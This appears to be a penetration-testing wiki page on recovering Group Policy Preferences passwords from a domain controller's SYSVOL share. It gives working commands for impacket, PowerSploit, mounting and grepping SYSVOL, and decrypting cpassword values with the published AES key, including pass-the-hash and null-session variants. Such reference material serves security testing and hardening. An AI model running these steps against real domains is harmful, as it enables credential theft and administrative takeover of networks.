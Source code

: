 ## Theory
Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

- Issue 1: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
- Issue 2: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful Pass-the-Hash attacks.
- Issue 3: all Group Policies are stored in the Domain Controllers' SYSVOL share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted.
## Exploit GPP
=== "UNIX-like"
    From UNIX-like systems, the Get-GPPPassword.py (Python) script in the impacket examples can be used to remotely parse .xml files and loot for passwords.
    ```bash
    # with a NULL session
    Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

    # with cleartext credentials
    Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

    # pass-the-hash
    Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
    ```
    Searching for passwords can be done manually (or with Metasploit's `smb_enum_gpp` module), however it requires mounting the SYSVOL share, which can't be done through a docker environment unless it's run with privileged rights.

    Tools like [pypykatz](https://github.com/skelsec/pypykatz) (Python) and [gpp-decrypt](https://www.kali.org/tools/gpp-decrypt/) (Ruby) can then be used to decrypt the matches.
    ```bash
    # create the target directory for the mount
    sudo mkdir /tmp/sysvol

    # mount the SYSVOL share
    sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

    # recursively look for "cpassword" in Group Policies
    sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

    # decrypt the string and recover the password
    pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
    gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
    ```
=== "Windows"
    PowerSploit's [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml and Drives.xml` files and returns plaintext passwords
    ```bash
    Import-Module .\Get-GPPPassword.ps1
    Get-GPPPassword
    ```
    This can also be achieved without tools, by "manually" looking for the cpassword string in xml files and by then manually decrypting the matches.
    ```bash
    findstr /S cpassword %logonserver%\sysvol*.xml
    ```
    Decode process
    ```bash
    1. decode from base64
    2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
    3. decode from UTF-16LE
    ```